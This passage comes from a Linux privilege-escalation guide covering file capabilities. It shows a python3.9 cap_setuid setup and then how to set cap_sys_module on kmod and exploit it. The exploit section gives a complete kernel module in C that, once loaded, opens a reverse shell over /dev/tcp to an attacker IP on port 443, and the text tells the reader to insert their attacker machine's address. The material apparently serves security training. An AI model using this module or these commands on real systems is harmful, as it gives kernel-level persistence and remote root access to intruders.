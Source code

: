 ```bash
/usr/bin/python3.9 setcapability.py /usr/bin/python3.9
```

```bash
[armour@localhost ~] getcap -r / 2> /dev/null
/usr/bin/python3.9 cap_setuid=ep
```




## cap_sys_module

#### Misconfiguring

```bash
setcap cap_sys_module+ep /usr/bin/kmod
```

#### Exploiting

- Change the IP address of the C code to the IP of your attacker machine.

```bash
cd
```

```bash
vim reverse-shell.c
```

```c title:reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.1.150/443 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```bash
mkdir lib/modules -p
```
